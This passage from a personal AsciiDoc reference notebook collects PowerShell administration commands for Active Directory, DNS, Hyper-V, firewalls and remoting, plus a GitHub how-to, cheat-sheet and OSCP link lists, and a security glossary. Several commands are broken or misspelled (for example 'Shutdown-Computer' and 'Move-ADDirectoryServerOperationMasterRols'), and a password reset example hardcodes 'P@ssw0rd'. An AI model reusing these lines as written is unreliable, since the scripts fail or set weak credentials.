	Set-DNSClientServerAddress -InterfaceAlias "Ethernet" -ServerAddress 172.16.0.10

. IP v6 - Current Status

	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’

. IP v6 - Disable 
	
	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’ | Disable-NetAdapterBinding -ComponentID ‘ms_tcpip6’ -PassThru

. Rename computer

	Rename-Computer <new name>

. Restart computer

	Restart-Computer

. Shutdown computer

	Shutdown-Computer

. Set log application, system, and security log files to 100MB and roll over after 21 days

	limit-eventlog -logname "application" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "security" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "system" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 

. Enable Remote Desktop

	set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0

. Add firewall rules to allow Remote Desktop traffic

	Enable-NetFirewallRule -DisplayGroup “Remote Desktop”

. Check for updates and install updates

	get-hotfix|grid-view
	Install-Module -Name PSWindowsUpdate
	Get-Package -Name PSWindowsUpdate
	Install-WindowsUpdate -MicrosoftUpdate -AcceptAll -AutoReboot

. Set Date & Timezone

	set-date "1/1/2020 10:10 PM"
	(get-WmiObject win32_timezone).caption
	TZUTIL /s "Eastern Standard Time"

. Add a first domain controller

	Install-windowsfeature -name AD-Domain-Services -IncludeManagementTools
	Get-Command -Module ADDSDeployment
	Create Root Domain: Install-ADDSForest -DomainName “corp.momco.com”

. Add DNS Primary Zone

	Add-DnsServerPrimaryZone -NetworkID 192.168.64.0/24 -ZoneFile “192.168.64.2.in-addr.arpa.dns”
	Add-DnsServerForwarder -IPAddress 8.8.8.8 -PassThru

. Confirm DNS is working

	Test-DnsServer -IPAddress 192.168.64.2 -ZoneName "corp.momco.com"

. Add computer to a domain

	Add-Computer -DomainName <domain name>

. Add a second domain controller 

	Add-WindowsFeature AD-Domain-Services
	Install-ADDSDomainController -InstallDns -Credential (Get-Credential "CORP\Administrator") -DomainName "corp.contoso.com"

. Locate FSMO Roles

	Get-ADForest DOMAINNAME | FT SchemaMaster
	Get-ADForest DOMAINNAME | FT DomainNamingMaster
	Get-ADDomain DOMAINNAME | FT PDCEmulator
	Get-ADDomain DOMAINNAME | FT InfrastructureMaster
	Get-ADDomain DOMAINNAME | FT RIDMaster

. Add FSMO Role to a new computer

	Move-ADDirectoryServerOperationMasterRols - Identity NEW-DC -OperationMasterRole RIDMaster,InfrastrcutureMaster,DomainNamingMaster -Force

. List all accounts where password is not set to expire

	Search-ADAccount -PasswordNeverExpires | out-gridview

. List all accounts not used in last 90 days & Export to CSV

	Import-Module ActiveDirectory
	Search-ADAccount –AccountInactive -TimeSpan 90.00:00:00 -UsersOnly | Select -Property Name,DistinguishedName,LastLogonDate |	Export-CSV "C:\\InactiveADUsers.csv" -NoTypeInformation -Encoding UTF8

. Create a VM

	New-VM -MemoryStartupBytes 2048MB -Name VMNAME -path "d:\folder" -VHDPath "d:\folder\name.vhdx"

. Assign VM Network

	Get-VM -Name VMNAME | Get-VMNetworkAdapter | Connect-VMNetworkAdapter -Swtichname 'SWITCHNAME'

. Checkpoint a VM

	Get-VM | Checkpoint-VM

. Ping alternate

	Test-NetConnection
	Test-NetConnection 8.8.8.8

. Traceroute alternative

	Test-NetConnection www.bing.com -traceroute

. Telnet to a port

	Test-NetConnection www.bing.com -Port 80
	Test-NetConnection smtp.com -Port 25

. View All services in a GUI

	Get-Service | Out-Gridview

. Service management

	Stop-Service <service name>
	Start-Service <service name>
	Restart-Service <service name>
	Set-Service <service name> <-Change Service properties

. Enable/Disable Firewall

	set-netfirewallprofile -profile domain,public,private -enabled true/false

. Add a firewall rule

	New-NetFirewallRule -DisplayName "Allow Inbound Port80" -Direction Inbound -LocalPort 80 -Protocol TCP -Action Allow
	New-NetFirewallRule -DisplayName "Block Outbound Port80" -Direction Outbound -LocalPort 80 -Protocol TCP -Action Block

. Password Reset

	$newpwd = ConvertTo-SecureString -String "P@ssw0rd" -AsPlainText -Force
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset -PassThru | Set-ADuser -ChangePasswordAtlogon $True

. Install RSAT Tools:

	Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
	or
	ADD-WindowsFeature RSAT-Role-Tools

. Change color of error text:

	$host.PrivateData.ErrorForegroundcolor = 'green'

. Help for all commandlets with service in the name:  
	
	help *service*

. Update help with latest modifications from Microsoft:

	Update-Help

. Show all help about a commandlet:
	
	Help <cmdlet> -full

. Show online help about a commandlet:
	
	Help <cmdlet> -online

. To show a gui for a cmdlet:
	
	Show-command <cmdlet>

. Show event log settings:
	
	get-eventlog -list

. Show top ten biggest processes:

	Get-process| sort-object -property pm -descending | select-object -first 10

. Get all objects in a cmdlet:
	
	Get-service|get-member

. Show services that are running:
	
	Get-service| where-object -FilterScript { $_.Status -eq 'Running'}

. Gsv is alias for get-service
. ? Is alias for where
. Find out what cmdlet an alias is:

	Help gsv or get-alias gsv

. List all alias:

	Gal

. The Get-PSProvider cmdlet gets the Windows PowerShell providers in the current session. You can get a particular drive or all drives in the session. Windows PowerShell providers let you access a variety of data stores as though they were file system drives. The Get-PSDrive cmdlet gets the drives in the current session. You can get a particular drive or all drives in the session. This cmdlet gets the following types of drives:
.. Windows logical drives on the computer, including drives mapped to network shares.
.. Drives exposed by Windows PowerShell providers (such as the Certificate:, Function:, and Alias: drives) and the HKLM: and HKCU: drives that are exposed by the Windows PowerShell Registry provider.
.. Session-specified temporary drives and persistent mapped network drives that you create by using the New-PSDrive cmdlet.
Beginning in Windows PowerShell 3.0, the Persist parameter of the New-PSDrive cmdlet can create mapped network drives that are saved on the local computer and are available in other sessions. For more information, see New-PSDrive. Also, beginning in Windows PowerShell 3.0, when an external drive is connected to the computer, Windows PowerShell automatically adds a PSDrive to the file system that represents the new drive. You do not need to restart Windows PowerShell. Similarly, when an external drive is disconnected from the computer, Windows PowerShell automatically deletes the PSDrive that represents the removed drive.

. Show contents of a file:

	Get-content or gc

. List modules available:

	Get-module -List Available

. To import a module: 
	
	import-module <modulename>

. To list all commands available in a module: 
	
	get-command -module <modulename>

. Add roles & Features

	Install-WindowsFeature -IncludeAllSubfeature -IncludeManagementTools File-Services

. Install .Net Framework

	Install-WindowsFeature Net-Framework-Core -source d:\sources\sxs

. Repair trust relationship of a computer

	test-computersecurechannel -credential domain\admin -Repair

. To list all computers in AD:

	get-adcomputer -filter *|select -ExpandProperty name

. List services running on all computers in your domain:

	invoke-command -ComputerName (get-adcomputer -filter *|select -ExpandProperty name) -scriptblock { get-service }

. Implicit Remoting:

	Establish a session with remote computer: $session = New-PSSession -ComputerName ABCD
	Invoke-Command -Session $session -ScriptBlock { import-module activedirectory }
	Import-PSSession -Session $session -Module ActiveDirectory
	Close session: get-PSSession | remove-PSSession

. Invoke a powershell session on a remote computer:

	Enter-PSSession -ComputerName ABCD

. Invoke Troubleshooting pack:

	import-module troubleshootingpack
	get-troubleshootingpack c:\windows\diagnostics\system\Networking
	get-troubleshootingpack c:\windows\diagnostics\system\Networking| Invoke-TroubleshootingPack

. Replacement for ipconfig /all

	get-NetIPConfiguration

. Find out network adapter names and statistics

	get-NetAdapter
	get-NetAdapterStatistics

<<<
== Github Reference

=== Adding a new repository to github.com

* On the github.com page, click on 

image::github1.png[]
* Select "New Repository" 

image::github2.png[]
* Provide repository name in the provided field 

image::github3.png[]
* Click to create repository 

image::github4.png[] 
* Follow instructions on the page displayed on you local computer which has ssh access to github.

=== Creating a local folder on your computer

* Change Directory to the root folder where you want the GIT repository to be stored
* Clone the respository

	git clone <repository URL from git page>

=== What to do after renaming your github username?
After you have changed your github.com user name, you will have to relink all your local github repositories to the github on the web.  Here are the steps:

. Open GitCMD or GitBASH
. Change directory to the repository where you have cloned the respository from the web
. Check where does this repository points:

	git remote -v

image::github-repo-now.png[]
. Change to new github repository

	git remote set-url origin git@github.com:secprivrisk/CyberSecurity.git

. Confirm the change by issuing the command:

	git remote -v

image::github-repo-new.png[]
<<<
== Cheat Sheets
. https://www.malwarearchaeology.com/cheat-sheets[Cheat Sheets to help you in configuring your systems]
. https://cheatography.com/tag/ir/[IR Cheat Sheets]
. https://digital-forensics.sans.org/community/cheat-sheets[SANS DFIR Community: Cheat Sheets]
. https://zeltser.com/cheat-sheets[IT and Information Security Cheat Sheets]
. https://www.sans.org/blog/4-cheat-sheets-for-malware-analysis/[4 Cheat Sheets for Malware Analysis]
. https://www.andreafortuna.org/2017/07/03/volatility-my-own-cheatsheet-part-2-processes-and-dlls/[Volatility Cheatsheet]


<<<
== Ethical Hacking References

=== By Mayur Parmar
Want resource for OSCP?
here is the material to clear OSCP.
All the best for your journey.
How to prepare for OSCP complete guide 

Below are 5 skills which you have to improve before registering for OSCP
> Learn basic of Computer Network, Web application, and Linux
> Learn Bash and Python scripting
> Enumeration is key in OSCP lab, I repeat Enumeration is key in OSCP Lab and in real world too
> Download vulnerable VM machines from vulnhub
> Buffer Overflow (BOF) exploitation

Below are the free reference before registration of OSCP 
> https://lnkd.in/fBcwnBF
> https://lnkd.in/fXtRZK5
> https://lnkd.in/fcHg29E
> https://lnkd.in/f2-wBQJ
> https://lnkd.in/fkFNATW

Below are the reference for Buffer overflow and exploit developmet for OSCP
> https://lnkd.in/fmmU_Uz
> https://lnkd.in/fZDh9Vd

For Bash Scripting 
> https://lnkd.in/fn2wpZ5

Transferring Files from Linux to Windows & post-exploitation
> https://lnkd.in/fSJ44Eb
> https://lnkd.in/fJUGq3s

Privilege Escalation:
> https://lnkd.in/f4jsZfa
> https://lnkd.in/fFAeE3g
> https://lnkd.in/fUx6HZQ
> https://lnkd.in/fDNJGHw
> https://lnkd.in/fqPJzMP
> https://lnkd.in/fixKjR6
> https://lnkd.in/f2Nz3_a
> https://lnkd.in/fpZcJT9


Some tips and tricks for OSCP Exam & write-ups.
https://lnkd.in/fWugM5F
https://lnkd.in/fs_dDJr
https://lnkd.in/fzh5M_V
https://lnkd.in/fV3m55b
https://lnkd.in/faWFaea
https://lnkd.in/fiFGmV9
https://lnkd.in/fShfYRe
https://lnkd.in/f9mKEgu
https://lnkd.in/fjuxWZ5
https://lnkd.in/ffett24
https://lnkd.in/fivVvaz
https://lnkd.in/f973szJ
https://lnkd.in/f8ec7z5



=== By Pethuraj M

Following references were posted on LinkedIn by https://www.pethuraj.in https://www.pethuraj.com 

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀 𝗙𝗼𝗿 𝗟𝗲𝗮𝗿𝗻𝗶𝗻𝗴 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗣𝗲𝗻𝘁𝗲𝘀𝘁𝗶𝗻𝗴
http://tiny.cc/s5Ig

• 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀-𝗳𝗼𝗿-𝗹𝗲𝗮𝗿𝗻𝗶𝗻𝗴-𝗛𝗮𝗰𝗸𝗶𝗻𝗴
http://tiny.cc/7OiG

• 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗖𝘆𝗯𝗲𝗿 𝘀𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗕𝗶𝗯𝗹𝗲
http://tiny.cc/0wGg

• 𝗖𝘆𝗯𝗲𝗿 𝗦𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/m6Ig

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/pqJg

• 𝗲𝘁𝗵𝗶𝗰𝗮𝗹-𝗵𝗮𝗰𝗸𝗶𝗻𝗴-𝗿𝗲𝗽𝗼𝘀𝗶𝘁𝗼𝗿𝘆
http://tiny.cc/IqYg

• 𝗙𝗿𝗲𝗲 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗲𝗕𝗼𝗼𝗸𝘀
http://tiny.cc/b6Rg


#cybersecurity #hackerone #bugcrowd #wapt #pentest #security #hacking #pentesting #bugbounty #owasp #burpsuite #ceh #oscp #ethicalhacking #infosec

== Terms Used
[horizontal]
ATT&CK:: Adversatial Tactics Techniques & Common Knowledge
APT:: Advanced Persistent Threat
CTF:: Capture The Flag
CTI:: Cyber Threat Intelligence
EDR:: Endpoint Detection and Response
ICS:: Industrial Conrol Systems
IOC:: Indicators of Compromise
LLMNR:: Link Local Multicast Name Resolution
Med-jacking:: is a new kind of cybersecurity threat to health care systems. Medjacking involves hacking into medical devices using backdoors to access software on the device.
mDNS:: Multicast Domain Name System
MDR:: Managed Detection and Response
MSSP:: Managed Security Services Provider
OCG:: Organized Criminal groups
OSINT:: Open Source Inteligence Tools: Gathering odata from open source or readily and freely available sources
PLC:: Programmagle Logic controller
SIGINT:: Signals Intelligence is the act of gathering information in transit by interception.
Smishing:: Phishing through SMS
TTP:: Techniques, Tactics, Procedures
UEBA:: User Entity Behaviorial Analytics
Vishing:: Phishing through voice calls
WPAD:: Web Proxy Auto Discovery Protocol

<<<
[bibliography]
== References & Links

. Writing Position Papers: http://www.studygs.net/wrtstr9.htm 
. Cover Page graphic: https://www.pinterest.com/pin/352758583290504850/ 
. https://www.avg.com/en/signal/what-is-malware[What is Malware?]
. https://gowthams.gitbook.io/bughunter-handbook/[Bug Hunter Handbook]



